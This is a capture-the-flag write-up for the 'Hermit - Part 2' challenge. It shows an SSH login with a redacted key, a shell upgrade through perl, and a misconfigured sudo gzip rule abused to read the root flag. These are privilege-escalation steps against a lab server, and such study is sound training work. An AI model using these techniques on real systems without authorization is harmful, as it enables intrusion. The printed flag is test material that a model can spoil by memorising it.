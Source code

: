 # Hermit - Part 2

>Who are you? How did you get here? You better zip on out of here or else.
>
>104.197.195.221:8087 34.121.84.161:8087
>
>Created by Cobchise#6969
>
>(The server is likely not broken. If you really think it's broken, create a support ticket.)

>## Hint1 
>Try enumeration

>## Hint2
>The port you are looking for has been forwarded to 8087.

```
-----BEGIN OPENSSH PRIVATE KEY-----
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
REDACTEDREDACTEDREDACTEDREDACTEDREDACTEDREDACTED
-----END OPENSSH PRIVATE KEY-----
```


```bash
$ ssh -i id_ed25519 hermit@104.197.195.221 -p 8087
Linux 162d488eac13 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 28 15:14:43 2021 from 180.150.57.6
-sh: 35: set: Illegal option -o history
$ whoami
hermit
```

## upgrading shell
```
$ which python3
$ which python
$ which perl
/usr/bin/perl

$ perl -e 'exec("/bin/bash")'
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
	LANGUAGE = (unset),
	LC_ALL = (unset),
	LANG = "en_CA.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
hermit@162d488eac13:~/flag$ 

```

## sudo -l

```bash
hermit@162d488eac13:~/flag$ sudo -l
Matching Defaults entries for hermit on 162d488eac13:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User hermit may run the following commands on 162d488eac13:
    (ALL : ALL) ALL
    (root) NOPASSWD: /bin/gzip -f /root/rootflag.txt -t

hermit@162d488eac13:~/flag$ sudo /bin/gzip -f /root/rootflag.txt -t
UMASS{a_test_of_integrity}
```
